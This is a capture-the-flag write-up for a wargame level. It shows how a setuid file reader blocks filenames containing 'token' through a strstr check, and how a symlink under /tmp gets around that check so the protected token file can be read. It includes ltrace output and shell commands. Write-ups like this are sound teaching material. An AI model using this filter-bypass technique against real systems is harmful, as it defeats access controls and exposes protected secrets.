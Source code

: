 # Level 08

## Initial Context

- Two file: `level08` and `token`

## Solving the Challenge

### Analyzing

```bash
$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

`level08` seems to behave like `cat`:

```bash
$ ./level08
./level08 [file to read]
$ ./level08 /etc/passwd
...
```

But we can't read the `token` file with it:

```bash
$ ./level08 token
You may not access 'token'
```

### Exploiting

Using `ltrace`, we can see that the program use `strstr` to find the string `"token"` in the filename. And only decide to `open` it if no match has been found.

```bash
$ ltrace ./level08 token
...
strstr("token", "token") = "token"
printf("You may not access '%s'\n", "token") = 27
...
$ ltrace ./level08 /etc/passwd
...
strstr("/etc/passwd", "token") = NULL
open("/etc/passwd", 0, 014435162522) = 3
...
```

We can't rename the file, but we can create a symlink to it.

```bash
$ ln -s $(pwd)/token /tmp/level08_file
$ ./level08 /tmp/level08_file
....
```

Perfect, now we can log to `flag08` and do `getflag`.
